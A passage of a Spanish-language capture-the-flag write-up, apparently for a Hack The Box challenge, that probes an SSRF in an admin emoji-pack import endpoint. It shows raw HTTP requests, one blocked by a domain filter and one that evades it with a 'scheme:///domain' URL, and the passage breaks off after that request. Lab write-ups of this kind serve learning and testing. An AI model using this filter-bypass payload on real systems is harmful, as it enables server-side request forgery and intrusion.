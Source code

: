 Atrodennn.

![image3](/ctf/assets/images/emoji-letters-8.png)

Veamos que onda el `SSRF`.

_HTTP Request_:
{% highlight text %}
POST /api/admin/emoji-pack/import HTTP/1.1
Host: emoji.htb:1337
Content-Length: 34
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://emoji.htb:1337
Referer: http://emoji.htb:1337/admin
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,es-AR;q=0.8,es;q=0.7
Cookie: session=6e58f080-ab17-4291-b29b-cb3e4d3f2f54
Connection: close

{"emojiURL":"https://xvideos.com"}
{% endhighlight %}

_HTTP Response_:
{% highlight text %}
HTTP/1.1 401 UNAUTHORIZED
Server: nginx
Date: Fri, 30 Sep 2022 08:10:39 GMT
Content-Type: application/json
Content-Length: 48
Connection: close
Set-Cookie: session=6e58f080-ab17-4291-b29b-cb3e4d3f2f54; Expires=Mon, 31 Oct 2022 08:10:39 GMT; HttpOnly; Path=/

{"message":"Domain xvideos.com is not allowed"}
{% endhighlight %}

Si, claramente tienen un filtro anti-porno. Después de probar un rato, llegue a la conclusion de que se pasa los `if` por el orto cuando le meto `scheme:///domain`.

* La validación del scheme esta implementado para el reverendo ojete.

_HTTP Request_:
{% highlight text %}
POST /api/admin/emoji-pack/import HTTP/1.1
Host: emoji.htb:1337
Content-Length: 33
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://emoji.htb:1337
Referer: http://emoji.htb:1337/admin
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,es-AR;q=0.8,es;q=0.7
Cookie: session=6e58f080-ab17-4291-b29b-cb3e4d3f2f54
Connection: close

{"emojiURL":"ftp:///xvideos.com"}
{% endhighlight %}
